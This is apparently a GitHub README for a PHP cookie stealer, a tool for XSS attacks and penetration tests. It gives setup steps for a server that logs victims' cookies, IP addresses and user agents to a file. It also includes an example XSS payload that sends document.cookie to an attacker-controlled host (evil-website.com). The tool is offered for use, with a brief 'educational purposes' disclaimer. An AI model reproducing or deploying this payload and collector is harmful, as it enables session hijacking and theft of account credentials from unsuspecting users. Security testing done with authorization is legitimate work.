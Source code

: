 # PHP Cookie Stealer
The PHP cookie stealer is a tool that can be used in penetration testing and XSS attacks to steal browser cookies from victims. The tool works by setting up a server that listens for incoming requests with a specific cookie value. When a request is received, the tool logs various information about the request, including the date and time, client IP address, user agent, referer, and cookie value, to a file.

This tool can be used by attackers to steal sensitive information, such as session tokens and authentication credentials, from unsuspecting users. By stealing a user's browser cookies, an attacker can gain unauthorized access to the user's account and perform actions on their behalf.

## Usage

1. Clone PHP Cookie Stealer Project
```
git clone https://github.com/TheWation/PhpCookieStealer
```

2. Install a web server with PHP support on your machine if you haven't already. For example, you can install XAMPP, which includes Apache and PHP, from the official website: https://www.apachefriends.org/index.html

3. Create a new directory for your project and navigate into it using a terminal or command prompt.

4. Create a new file called index.php and copy the PHP code into it.

5. Start the web server and navigate to http://localhost/your-project-name/index.php?cookie=your-cookie-value in your web browser, replacing your-project-name with the name of the directory where your project is located, and your-cookie-value with the value of the cookie that you want to log. For example, if the cookie value is ABC123, you would visit http://localhost/your-project-name/index.php?cookie=ABC123.

6. The server will log the date and time, client IP address, user agent, referer, and cookie value to the cookies.txt file in the project directory.
```
[+] Date: 2022/10/03 15:30:45
[+] IP: 127.0.0.1
[+] UserAgent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.71 Safari/537.36
[+] Referer: http://localhost/your-project-name/index.php
[+] Cookies: ABC123
---
```

7. The server will also return a response with a status code of 200 if the request was successful, or a status code of 500 if there was an error writing to the file.

8. You can repeat step 4 with different cookie values to log additional data to the file.

9. To stop the server, stop the web server software.

## Example Payload
```
https://pentest.target/?name=<img src=x onerror=this.src='http://evil-website.com/input.php?cookie='+document.cookie>
```

## Disclaimer
For educational purposes only. Do not use for illegal activities. Use at your own risk. By using this tool, you agree to comply with all applicable laws and regulations. Unauthorized use is strictly prohibited. Always obtain permission before using this tool. No warranties.

## License

`WebSecurityVision` is made with ♥  by [Wation](https://github.com/TheWation) and it's released under the MIT license.